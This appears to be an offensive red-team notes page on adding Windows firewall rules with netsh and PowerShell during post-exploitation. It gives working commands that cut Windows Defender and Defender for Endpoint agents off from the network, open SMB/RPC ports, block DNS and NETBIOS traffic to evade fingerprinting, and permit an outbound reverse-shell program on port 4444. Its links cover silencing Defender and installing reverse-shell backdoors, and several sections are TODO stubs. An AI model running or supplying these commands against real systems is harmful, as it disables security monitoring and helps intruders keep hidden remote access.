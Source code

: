 # Add Firewall Rule

## 01 - Usage

### 1.1 - Command Prompt

> [!NOTE] Elevated Privileges is required
> Using `netsh.exe` requires administrative rights when adding firewall rules.

You can remotely add a firewall rule communicating through NETBIOS.

```
C:\> netsh.exe [-r <IP>] advfirewall firewall add rule name="<rule_name>" dir=<in | out> action=<allow | block | bypass> protocol=<any | tcp | udp | icmpv4 | icmpv6> localport=<PORT>
```

### 1.2 - PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "<rule_name>" -Direction <Inbound | Outbound> -LocalPort <PORT> -Action <NotConfigured | Allow | Block> -Protocol <TCP | UDP | ICMPV4 | ICMPV6>
```

## 02 - Scenarios

### 2.1 - Allow Incoming Ports

#### 2.1.1 - Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=445
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=135
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=139
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=138
```

#### 2.1.2 - PowerShell

```

```

### 2.1 - Block Outbound Packets

#### 2.1.1 - Command Prompt

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=137 action=block
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=53 action=block
```

#### 2.1.2 - PowerShell

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Load Balancer" -Direction Outbound -LocalPort 137 -Action Block -Protocol UDP
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Endpoint Response Agent" -Direction Outbound -LocalPort 53 -Action Block -Protocol UDP
```

### 2.2 - Block Security Endpoints

#### 2.2.1 - Windows Security

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsMpEng" dir=outbound protocol=TCP action=block service=WinDefend remoteport=443

C:\> netsh.exe advfirewall firewall show rule name="Block 443 MsMpEng"
```

PowerShell

```powershell
PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block

PS C:\> Get-NetFirewallRule -DisplayName "Block 443 MsMpEng"
```

#### 2.2.2 - Advanced Threat Protection

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 SenseCncProxy" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" remoteport=443 protocol=TCP action=block

C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsSense" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" remoteport=443 protocol=TCP action=block
```

PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block

PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

#### 2.2.3 - Third Party

TODO: Provide other examples from different endpoints

### 2.3 - Allow programs with incoming/outgoing connection

TODO: Provide examples such as in a restricted network by adding a firewall rule to establish a callback shell connection

#### 2.3.1 - Callback Reverse Shell

TODO: Test this

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Callback Reverse Shell" profile=domain,private,public remoteport=4444 protocol=tcp enable=yes dir=out program="C:\path\to\shell.exe" action=allow
```

PowerShell

```
PS C:\> New-NetFirewallRule -Name "Callback Reverse Shell" -Profile "Domain,Private,Public" -Protocol TCP -Enabled True -Direction Outbound -RemotePort 4444 -Program "C:\path\to\shell.exe" -Action Allow
```

#### 2.3.2 - Callback Bind Shell

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xE - Networking Configuration/Firewalls/Living off the Land]]

- [[Firewall Rule Names Examples]]

### Red Team Recipe

- [RedTeamRecipe: Registry Attack Vectors](https://blog.redteamguides.com/registry-attack-vectorsrtc0018)

### Bhabesh

- [Bhabesh: Detect Addition of New Firewall Rules in Defender Firewall](https://bhabeshraj.com/post/detect-addition-of-new-firewall-rules-in-defender-firewall/)

### Ivan

- [Ivan: Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)

### Soren Fritzboger

- [Soren Fritzboger: Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)